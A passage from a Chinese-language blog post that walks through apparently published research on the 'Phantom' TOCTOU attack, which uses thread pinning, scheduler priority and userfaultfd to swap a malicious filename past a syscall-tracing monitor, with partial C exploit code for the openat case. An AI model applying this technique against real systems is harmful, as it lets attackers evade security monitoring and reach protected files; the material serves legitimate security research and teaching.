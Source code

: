 进一步，研究者介绍了他们在本次 Exploit 中将会使用到的基本攻击原语: **sched_setscheduler()** 以及 **sched_setaffinity()**.

**sched_setscheduler()** 在 Exploit 中是一个可选项，当 TOCTOU Window 足够大时，比如进行与网络相关的系统调用可以不需要使用这个方法。但在向处理打开文件这样的系统调用需要使用该方法来改变进程运行的优先级来增加 TOCTOU Window 的大小，以确保 Exploit 能够以一个较高的概率成功。有关 **sched_setscheduler** 更进一步的介绍可以[点击这里](https://man7.org/linux/man-pages/man2/sched_setscheduler.2.html)，感兴趣的读者可以自行查阅。

**sched_setaffinity()** 用于将一个线程固定到一个指定的 CPU 核心上。

##### Phantom v1 Attack - An Openat Examples

整一个攻击流程可以用下图展示，
{{< image src="https://image.p1nant0m.xyz/202210161447837.png" caption="Phantom v1 Attack" src_s="https://image.p1nant0m.xyz/202210161447837.png" src_l="https://image.p1nant0m.xyz/202210161447837.png" >}}

可以看到整一个攻击链由三个主要的线程共同协作完成，它们分别是 **main thread**, **userfaultfd thread** 和 **overwrite thread**。其中 **main thread** 给固定在了 CPU3 上，而 **overwrite thread** 固定到了 CPU2 上。研究者进行 Exploit 演示的硬件平台运行在四核 CPU 环境上， CPU3 正是用于处理 Network Interrupt 的默认 CPU，因此若使用 Networking Interrupt 触发 Core3 执行中断处理程序，那么我们就需要将其 PIN 在 Core3 上，而若使用 IPIs 作为手段，**main thread** 可以运行在任意 CPU 上。


在 **main thread** 上调用 `mmap` 创建 pageA 内存映射，注意到此时该页还未被分配加载。同时，注册 `userfaultfd` 线程去处理 pageA 的缺页中断事件。**main thread** 还会作为调用 `openat` 的入口来演示相关的 TOCTOU 问题。

**overwrite thread** 负责在 **tracing program** 检查前向 pageA 中写入合法的文件名，其在刚启动时会被条件锁给阻塞。

在了解了整个 Exploit 的基本设置后，我们结合流程图在 Exploit 代码的视角来看看整个攻击的流程，

```c
    ...
  page_size = sysconf(_SC_PAGE_SIZE);
  page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
              MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    ...
  int myfd = open(page, O_CREAT|O_RDWR|O_DIRECT, 0640);
  if (myfd < 0) 
    handle_error_en(myfd, "open failure");
```

通过调用 `open` 函数触发一次系统调用，此时 pageA 指向的内存位置还未被分配，这将触发一次缺页中断。**main thread** 的控制流由 **kernel thread** 转向由 `userfaultfd` 注册的用于自定义缺页处理函数，我们在这省略一些初始化逻辑以及用于调试的输出信息，
```c
    ...
  /* Create a page that will be copied into the faulting region */
  if (page == NULL) {
    page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
      handle_error_en(page, "mmap");
  }
    ...

      uffdio_copy.src = (unsigned long) page;
      /* We need to handle page faults in units of pages(!).
         So, round faulting address down to page boundary */
      uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                           ~(page_size - 1);
      uffdio_copy.len = page_size;
      uffdio_copy.mode = 0;
      uffdio_copy.copy = 0;

      /* 将 Malicious filename 复制到 page 指向内存空间的起始位置 */
      strncpy(page, filename, sizeof(filename));
      flush(page);
      /* 释放互斥锁 */
      sender(); 

      printf("Before ioctl\n");
      if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
```